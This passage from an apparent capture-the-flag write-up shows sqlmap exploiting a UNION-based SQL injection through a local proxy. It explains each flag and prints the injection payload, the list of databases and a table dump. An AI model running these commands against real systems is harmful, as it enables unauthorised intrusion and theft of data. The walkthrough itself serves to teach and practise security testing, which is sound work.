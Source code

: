 Now I’ll run `sqlmap` through it. I’ll use a couple flags:
- Some of the requests `sqlmap` will try to send will just generate no response from the server. `--timeout 3` will just give up after three seconds.
- By default, `sqlmap` will assume a timeout is a failure somewhere else and try again. Adding `--ignore-timeouts` will have it treat this as a failure and move on, which is appropriate here.
- Because I know from manual tests that UNION injection works, I’ll just have it do that with `--technique=U`.
- `--batch` will just choose the default answers for any mid-exploitation prompts that come up.

It works:

```

oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U --batch
...[snip]...
sqlmap identified the following injection point(s) with a total of 20 HTTP(s) requests:
---
Parameter: params (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: params=-6430 UNION ALL SELECT NULL,CONCAT(CONCAT('qpkxq','SrOjExfySLoPEhBWAdtuAgpEhBtKXFJUcLqNbCgr'),'qpxjq')-- mBxQ
---
[20:15:41] [INFO] testing MySQL
[20:15:41] [INFO] confirming MySQL
[20:15:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
...[snip]...

```

It’s not surprising that it found the injection. But now I can do normal enumeration, like list the DBs by adding `--dbs`:

```

oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U -p params --batch --dbs
...[snip]...
[20:17:15] [INFO] fetching database names
available databases [3]:
[*] crossfit
[*] employees
[*] information_schema
...[snip]...

```

Replacing `--dbs` with `--tables`, it’ll dump all the tables:

```

oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U -p params --batch --tables                                                              ...[snip]...
[20:18:57] [INFO] fetching database names
[20:18:57] [INFO] fetching tables for databases: 'crossfit, employees, information_schema'
Database: information_schema
[80 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
...[snip]...
| user_variables                        |
+---------------------------------------+

Database: crossfit
```
